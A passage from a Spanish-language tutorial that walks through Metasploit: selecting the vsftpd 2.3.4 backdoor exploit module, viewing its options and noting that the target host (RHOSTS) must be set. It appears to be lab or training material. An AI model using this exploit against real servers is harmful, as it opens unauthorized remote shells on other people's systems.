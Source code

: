
4. Usar un exploit

En este caso usaremos el primer exploit que aparece, cuyo identificador es cero
```bash
msf6 > use 0
```

En la salida nos indica que lo debemos configurar.
```bash
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

5. Opciones de configuración

Para ver las opciones de configuración se utiliza el comando `show options`
```bash
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

La salida es la siguiente
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

Name Current Setting Required Description
---- --------------- -------- -----------
CHOST no The local client address
CPORT no The local client port
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metaspl
oit/basics/using-metasploit.html
RPORT 21 yes The target port (TCP)
 
Payload options (cmd/unix/interact):
  
Name Current Setting Required Description
---- --------------- -------- -----------

Exploit target:

Id Name
-- ----
0 Automatic

View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

Esta salida indica que se debe rellenar el RHOSTS objetivo
